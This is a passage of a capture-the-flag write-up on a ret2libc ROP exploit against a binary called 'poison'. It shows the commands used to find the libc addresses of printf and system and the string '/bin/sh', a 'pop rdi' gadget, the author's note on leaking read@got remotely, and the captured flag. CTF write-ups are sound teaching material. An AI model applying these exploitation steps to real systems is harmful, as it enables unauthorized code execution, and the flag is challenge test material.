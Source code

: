     # readelf -s xtract/data/lib/x86_64-linux-gnu/libc.so.6 | grep " printf"
    603: 0000000000055800   161 FUNC    GLOBAL DEFAULT   13 printf@@GLIBC_2.2.5

    # readelf -s xtract/data/lib/x86_64-linux-gnu/libc.so.6 | grep system
    1351: 0000000000045390    45 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.2.5

    # strings -tx xtract/data/lib/x86_64-linux-gnu/libc.so.6 | grep "/bin/sh"
    18cd57 /bin/sh


#### ROP gadgets

This is a 64-bit system, so the parameters need to be pop-ed onto RDI

    # ROPgadget --binary ./poison | grep 'pop rdi'
    0x0000000000401ed3 : pop rdi ; ret

#### Solved for flag

Now we have all the info we need, I tried it locally and it was a success.

However, when doing on the server, it did not work. I changed the leaking of printf@got to gets@got and it still does not work. When I changed to read@got, it works.

Hence, I did the following in ROP form.

    printf@plt(*printf@got)

Cat flag

    # python3 solve_rop.py 

## Flag

    HATS{Making_flags_is_hard}
